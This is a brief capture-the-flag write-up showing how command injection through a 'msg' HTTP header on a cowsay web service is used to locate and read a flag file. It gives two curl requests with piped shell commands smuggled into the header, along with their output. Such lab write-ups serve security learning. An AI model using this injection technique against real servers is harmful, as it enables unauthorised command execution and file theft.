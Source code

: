 ```yaml
---
ai_date: '2025-04-27 05:12:06'
ai_summary: Flag retrieved by exploiting command injection through the 'msg' header
ai_tags:
- cmd-inj
- http-hdr
- rce
created: 2024-06-11T01:33
updated: 2024-06-11T01:35
---
```


> We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".
>
> Please help us retrieve its contents.
>
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40201

From the networking debugger tool, we can see that all escaping are done client side. So we can just send our own command.

We can also see that the command is sent via header called `msg`

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | find .. -name "flag.txt" -print'
```

```
 _________________________________ 
< ../usr/local/flag/here/flag.txt >
 --------------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Now we can simply read the file

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | cat "../usr/local/flag/here/flag.txt"'
```

```
 _________________________ 
< Cyberthon{1_L0V3_W4GYU} >
 ------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

There we have our flag